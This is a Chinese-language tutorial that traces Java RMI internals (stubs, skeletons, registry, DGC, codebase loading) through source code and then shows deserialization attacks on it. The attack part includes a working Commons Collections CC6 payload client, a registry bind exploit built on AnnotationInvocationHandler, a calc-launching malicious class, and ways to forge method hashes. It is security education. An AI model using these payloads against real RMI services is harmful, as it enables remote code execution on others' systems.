# 0x01 What is RMI

`Remote Method Invocation` 远程方法调用。

* RMI为应用提供了远程调用的接口（Java的RPC框架）
* 实现RMI的协议叫JRMP
* RMI实现过程存在Java对象的传递，因此涉及到反序列化

# 0x02 Procedure Glance

两个概念：客户端存根（stubs）、服务端骨架（skeletons）

> 为屏蔽网络通信的复杂性，RMI引入两个概念，客户端存根Stub和服务端骨架Skeleton
>
> * 当Client试图调用一个远端的Object，实际调用的是客户端本地的一个代理类（就是Stub）
>
> * 调用Server的目标类之前，会经过一个远端代理类（就是Skeleton），它从Stub接收远程方法调用并传递给真正的目标类
> * Stub和Skeleton的调用对于RMI服务的使用者是隐藏的

所以整个RMI的流程大概为

1. 客户端调用Stub上的方法
2. Stub打包调用信息（方法名、参数），通过网络发送给Skeleton
3. Skeleton将Stub发来的信息解包，找到目标类和方法
4. 调用目标类的方法，并将结果返回给Skeleton
5. Skeleton将调用结果打包，发送给Stub
6. Stub解包并返回给调用者



代码规则

* 客户端和服务端都需定义用于远程调用的接口
* 接口必须继承`java.rmi.Remote`接口
* 接口中的方法都要抛出`java.rmi.RemoteException`异常
* 服务端创建远程接口实现类，实现接口定义的方法
* 实现类继承`java.rmi.server.UnicastRemoteObject`

📌服务端

创建用于远程调用的接口：

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello() throws RemoteException;
    String sayGoodbye() throws RemoteException;
}
```

接口实现类：

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteHello extends UnicastRemoteObject implements Hello {

    public RemoteHello() throws RemoteException {
    }

    @Override
    public String sayHello() throws RemoteException {
        System.out.println("sayHello Called");
        return "Hello RMI";
    }

    @Override
    public String sayGoodbye() throws RemoteException {
        System.out.println("sayGoodbye Called");
        return "Bye";
    }
}
```

注册远程对象
使用`LocateRegistry#createRegistry()`来创建注册中心，`Registry#bind()`进行绑定

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        RemoteHello hello = new RemoteHello();
        Registry r = LocateRegistry.createRegistry(9999);
        System.out.println("Registry Start");
        r.bind("hello", hello);
    }
}
```

📌客户端

同样客户端需要定义和服务端相同的远程接口，然后进行调用

`LocateRegistry#getRegistry()`连接注册中心，`Registry#lookup()`获取远程对象的存根，通过名称查找

注册中心默认端口1099

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClient {
    public static void main(String[] args) throws Exception{
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        System.out.println(stub.sayHello());
        System.out.println(stub.sayGoodBye());
    }
}
```



# 0x03 Deep Source

## 远程对象创建

```java
RemoteHello remoteHello = new RemoteHello();
```

`RemoteHello`继承了`UnicastRemoteObject`，构造时会调用父类的构造方法，用于创建和导出一个`UnicastRemoteObject`对象，这个对象通过`RMISocketFactory`创建的服务端套接字来导出。`port=0`会选择一个匿名(随机)端口，导出的远程对象通过这个端口号来接收发送进来的调用请求。


接着又创建了一个`UnicastServerRef`对象，这个对象存在多层封装，与网络连接有关，这里跳过。



`UnicastServerRef`对象被传入了远程对象的ref属性。可以看到`UnicastServerRef`的`LiveRef`属性中存在一些和网络有关的信息

接着进入`UnicastServerRef#exportObject`



存根Stub出现了！它是通过`sun.rmi.server.Util#createProxy()`创建的代理类

跟进`createProxy`可以看到熟悉的`Proxy.newProxyInstance()`创建动态代理。



这里的`RemoteObjectInvocationHandler`关系到远程方法的调用，下文在客户端讲解。

接着返回到`exportObject`方法



创建了一个`sun.rmi.transport.Target`对象

这个Target对象封装了生成的动态代理类stub还有远程对象impl，再通过`LiveRef#exportObject`将target导出



`listen()`为stub开启随机端口，再`TCPTransport#exportObject`将target注册到`ObjectTable`中



最后target是被放入`objTable`和`implTable`中

从键`oe`、`weakImpl`可以看出，`ObjectTable`提供`ObjectEndpoint`和`Remote实例`两种方式来查找`Target`

## 注册中心创建

```java
Registry r = LocateRegistry.createRegistry(9999);
```



传入端口号创建`sun.rmi.registry.RegistryImpl`



同样`LiveRef`对象与网络有关，注意这里给`LiveRef`传入了一个id



id的值为0，这是注册中心特殊的id，客户端第一次连接时才能通过这个id找到注册中心

接着调用`setup()`





依旧调用`UnicastServerRef#exportObject`，不过上面导出的是`UnicastRemoteObject`，这里导出的是`RegistryImpl`



同样进行动态代理创建，不过上面导出`UnicastRemoteObject`的过程略过了这一步分析 —— `stubClassExists`的判断

`stubClassExists`会判断该远程对象是否有对应的stub类，格式为`Xxx_Stub`，若没有找到该类则`Class.forName`抛出异常，并把这个远程对象放入`withoutStubs`这个Map。

比如上面导出`UnicastRemoteObject`中，会去找`RemoteHello_Stub`

而现在要导出的是`RegistryImpl`，会去找`RegistryImpl_Stub`



获取委托类（这里是`RegistryImpl`）的名字前面加`_Stub`看是否存在

全局一搜还真有，`sun.rmi.registry.RegistryImpl_Stub`

看一眼这个类，它实现了`Registry`接口，并重写了很多常用方法如`bind`、`lookup`、`list`、`rebind`、`unbind`

这些方法的实现过程可以看到都用到了`readObject`、`writeObject`来实现的，即序列化和反序列化，也就是注册中心负责序列化和反序列化。

返回到动态代理的创建，接着`createStub`，通过反射实例化`RegistryImpl_Stub`实例对象



`createStub`之后判断stub是否为`RemoteStub`实例（`RegistryImpl_Stub`继承了`RemoteStub`），进入`setSkeleton`



`Util.createSkeleton`方法创建skeleton


和`createStub`类似，通过反射实例化`RegistryImpl_Skel`

接下来依旧是封装target对象，将`ResgitryImpl`和`RegistryImpl_Stub`封装成Target

`LiveRef#exportObject`将target导出，开启监听端口，放入`objTable`和`implTable`

`put`之后`objTable`有三个值

* DGC垃圾回收
  
  
  
* 创建的远程对象：stub为动态代理对象，skel为null
  
  
  
* 注册中心：stub为`RegistryImpl_Stub`、skel为`RegistryImpl_Skel`

  

## 服务注册

```java
r.bind("hello", remoteHello);
```



把name和obj放到`bindings`这个hashtable中

## 客户端请求注册中心-客户端

```java
Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
```


通过传入的host和port创建一个`LiveRef`用于网络请求，通过`UnicastRef`进行封装。(服务端是`UnicastServerRef`)

然后和注册中心的逻辑相同，创建了一个`RegistryImpl_Stub`对象

接着通过`lookup`与注册中心通信，查找远程对象获取存根

```java
Hello stub = (Hello) r.lookup("hello");
```

进入`RegistryImpl_Stub`的`lookup`



🚩`readObject`被调用

* `newCall`建立与远程注册中心的连接
* 通过序列化将要查找的名称写入输出流（这里是hello）
* 调用`UnicastRef`的invoke方法（invoke会调用`StreamRemoteCall#executeCall`，释放输出流，调用远程方法，将结果写进输入流）
* 获取输入流，将返回值进行反序列化，得到注册中心的动态代理Stub

## 客户端请求注册中心-注册中心

注册中心由`sun.rmi.transport.tcp.TCPTransport#handleMessages`来处理请求（上面就是这个`TCPTransport`导出的target）

进入`serviceCall`





由target获取到`RegistryImpl`对象，`impl`和`call`传入`dispatch`方法



判断`skel`是否为空来区别`RegistryImpl`和`UnicastRemoteObject`



这里的num是操作数，接着进入`oldDispatch`



接着调用`RegistryImpl_Skel#dispatch`，根据opnum进行不同的处理



这里是2对应`lookup`


从`bindings`中获取





获取完后将序列化的值传过去

## 客户端请求服务端-客户端

```java
stub.sayHello()
```

客户端调用服务端远程对象，还记得上面服务端的远程对象创建中，使用`Proxy.newProxyInstance()`创建了远程对象的动态代理

`Hello stub = (Hello) r.lookup("hello");`已经获取到了这个远程对象的动态代理，调用处理器中已经包含了远程对象对应的`UnicastRef`

`RemoteObjectInvocationHandler#invoke`





`invokeRemoteMethod`中实际委托`RemoteRef`的子类`UnicastRef#invoke`来执行

`invoke`传入了`getMethodHash(method)`，方法的哈希值，后面服务端会根据这个哈希值找到相应的方法

`UnicastRef`的`LiveRef`属性包含`Endpoint`、`Channel`封装与网络通信有关的方法，其中包含服务端该stub对应的监听端口



若方法有参数，调用`marshalValue`将参数序列化，并写入输出流



接着调用`executeCall`



`releaseOutputStream()`释放输出流，即发送数据给服务端

`getInputStream`读取返回的数据，写到`in`中



通过`unmarshalValue()`去反序列化获取返回值



先判断方法的返回类型是否为基本类型，不是的话调用原生反序列化。🚩`readObject`被调用

## 客户端请求服务端-服务端

和`客户端请求注册中心-注册中心`类似，`sun.rmi.transport.tcp.TCPTransport#handleMessages`

到`UnicastServerRef#dispatch()`，这次`num=-1`直接跳过`skel`的判断。



根据哈希值从`hashToMethod_Map`获取`Method`，`unmarshalValue`反序列化传入的参数。🚩`readObject`被调用

释放输入流后，调用`Method#invoke`，到这终于算远程方法调用到了



最后序列化调用结果，写入输出流，返回给客户端



## DGC

服务端通过`ObjectTable#putTarget`将注册的远程对象放入`objTable`中，里面有默认的`DGCImpl`对象

DGCImpl的设计是单例模式，这个类是RMI的分布式垃圾回收类。和注册中心类似，也有对应的`DGCImpl_Stub`和`DGCImpl_Skel`，同样类似注册中心，客户端本地也会生成一个`DGCImpl_Stub`，并调用`DGCImpl_Stub#dirty`，用来向服务端“租赁”远程对象的引用。



* invoke => UnicastRef#invoke => executeCall()  => readObject()
* 获取输入流、readObject，🚩`readObject`被调用

服务端：handleMessages => UnicastServerRef#dispatch => oldDispatch

最后进入`DGCImpl_Skel#dispatch`



两个case分支都有readObject，🚩`readObject`被调用

# 0x03 CodeBase

RMI还有一个特点就是动态加载类，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class

`java.rmi.server.codebase`属性值表示一个或多个URL位置，可以从中下载本地找不到的类，相当于一个代码库。

服务端和客户端都支持这个功能。

无论是客户端还是服务端要远程加载类，都需要满足以下条件：

- 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置`java.security.policy`。
- 属性`java.rmi.server.useCodebaseOnly`的值必需为false。但是从 **JDK 6u45、7u21** 开始，`java.rmi.server.useCodebaseOnly` 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的`java.rmi.server.codebase`指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类。

服务端增加如下配置

```java
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:9999/");
System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("rmi.policy").toString());
if (System.getSecurityManager() == null) {
    System.setSecurityManager(new RMISecurityManager());
}
```

客户端自定义一个类

```java
import java.io.IOException;
import java.io.Serializable;

public class ClientObject implements Serializable {
    @Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return "hacked";
    }
}
```

换一下接口

```java
@Override
public String sayHello(Object s) throws RemoteException {
    System.out.println("sayHello Called");
    return "Hello " + s;
}
```



反序列化参数的时候，若在本地找不到参数类，会根据codebase是否开放来决定从哪加载。



判断`useCodeBaseOnly`是否为`false`



通过`RMIClassLoader.loadClass`来加载类



这里传入的codebase是null，实际上这个codebase是可以由客户端指定的，原因也很简单，客户端传的参数，当然是由客户端告诉服务端这个参数类去哪找。这么危险的操作，难怪后面的版本会默认禁用codebase。。。。

这里是通过`getDefaultCodebaseURLs()`获取的，得到的是服务端配置的codebase

接下来`loadClass`判断了是否有设置`SecurityManager`，并获取到了一个类加载器



`sun.rmi.server.LoaderHandler$Loader`这个类加载器是`URLClassLoader`的子类

最后`Class<?> c = loadClassForName*(name, false, loader);`



`Class.forName`指定了这个加载器去加载。后面会实例化这个类

# 0x04 Attack RMI

上面有`readObject`进行反序列化的地方存在被攻击的隐患

1. 攻击客户端
   * RegistryImp_Stub#lookup   反序列化注册中心返回的Stub
   * StreamRemoteCall#executeCall  反序列化远调方法的执行结果
   * DGCImpl_Stub#dirty
2. 攻击服务端
   * UnicastServerRef#dispatch     反序列化客户端传递的方法参数
   * DGCImpl_Skel#dispatch
3. 攻击注册中心
   * RegistryImp_Stub#bind

## 攻击服务端

服务端：UnicastServer#dispatch 调用了`unmarshalValue`来反序列化客户端传来的远程方法参数

### 远程方法参数为Object

客户端将参数设为payload即可(下面使用CC6)

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello(Object name) throws RemoteException;
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class Client {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        stub.sayHello(getPayload());
    }

    public static Object getPayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;
    }

}
```

### 远程方法参数非Object

修改服务端接口

```java
public class HelloObject {
    @Override
    public String toString() {
        return "HelloObject{}";
    }
}
String sayGoodBye(HelloObject o) throws RemoteException;
```

继续使用上面的payload，报错`unrecognized method hash: method not supported by remote object`

因为客户端方法的哈希和服务端方法的哈希不同，`hashToMethod_Map`找不到对应的方法。

只要修改客户端发送的方法哈希值和服务端的一样就行了。

客户端的接口也添加一个同服务端相同的方法

```java
public interface Hello extends Remote {
    String sayHello(Object s) throws RemoteException;
    String sayGoodBye(Object o) throws RemoteException;
    String sayGoodBye(HelloObject o) throws RemoteException;  👈Same as Server's
}
```

调试的时候，在`RemoteObjectInvocationHandler`调用`invokeRemoteMethod`的时候修改method，下面`getMethodHash(method)`获取到的哈希就和服务端的一样了。



也可以通过`Java Agent`技术进行字节码插桩，以此来修改方法哈希

### 远程类加载

上面说过，RMI反序列化参数的时候，若在本地找不到类，会在指定的codebase下加载类，而codebase可以由客户端指定



## 攻击注册中心

上面的演示中注册中心和服务端是在一起的，所以服务端在绑定对象时，直接使用的是Registry本Registry。

注册中心和服务端是可以分开的，服务端可以使用`Naming`提供的接口来操作注册中心

```java
Naming.bind("rmi://127.0.0.1:1099/hello", hello);
```



这里获取到的就是`Registry`的动态代理`ResgitryImpl_Stub`，同样`bind`和上面的`lookup`类似，不过就是操作数改变了。

依然存在序列化和反序列化。服务端将待绑定的对象序列化，注册中心收到后反序列化。

目前来看，貌似注册中心没有身份验证的功能，客户端都可以进行`bind`、`unbind`、`rebind`这些操作。

`bind`的参数要求是`Remote`类型，可以用CC1中的`AnnotationInvocationHandler`来动态代理`Remote`接口，反序列化的时候map的键值对都会分别反序列化。

```java
HashMap<String, Object> map = new HashMap<>();
map.put("p4d0rn", getPayload());

Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);
Remote remote = (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, invocationHandler);

Naming.bind("rmi://127.0.0.1:1099/test", remote);
```

## 攻击客户端

客户端的攻击和上面的都类似，大概就下面几个攻击点

* 恶意Server返回方法调用结果
* 恶意Server Stub返回Registry代理对象
* 动态类加载（Server返回的调用结果若为客户端不存在的类，客户端也支持动态加载）

## 攻击DGC

见ysoserial的`JRMPClient`

# 0x05 Ref

* https://su18.org/post/rmi-attack 👍
